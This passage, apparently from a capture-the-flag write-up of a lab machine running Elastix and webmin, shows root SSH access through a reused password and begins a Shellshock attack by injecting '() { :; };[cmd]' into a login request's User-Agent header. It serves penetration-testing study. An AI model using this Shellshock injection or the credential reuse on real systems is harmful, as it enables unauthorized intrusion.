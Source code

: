 ## SSH as root [Path #3]

It’s normal for the root login for webmin to be the root account password, and that is the case here, as the “jEhdIekWmdjE” password works for SSH as root:

```

root@kali# ssh root@10.10.10.7
root@10.10.10.7's password:
Last login: Fri Aug 25 18:05:54 2017

Welcome to Elastix
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]#

```

## Shellshock [Path #4]

If I assume for a second that I didn’t have the root password, I could take some guesses trying to login to webmin. When I try to login, it create a POST request to `/session_login.cgi`:

```

POST /session_login.cgi HTTP/1.1
Host: 10.10.10.7:10000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: https://10.10.10.7:10000
DNT: 1
Connection: close
Referer: https://10.10.10.7:10000/
Cookie: testing=1; sid=x
Upgrade-Insecure-Requests: 1

page=%2F&user=root&pass=root

```

Any time there’s CGI (*especially* on an old machine), it’s time to look for [ShellShock](https://en.wikipedia.org/wiki/Shell_shock). To test, I’ll kick the login request over to Repeater and replace the `User-Agent` header with the Shellshock exploit string `() { :; };[cmd]`, starting with a simple sleep:
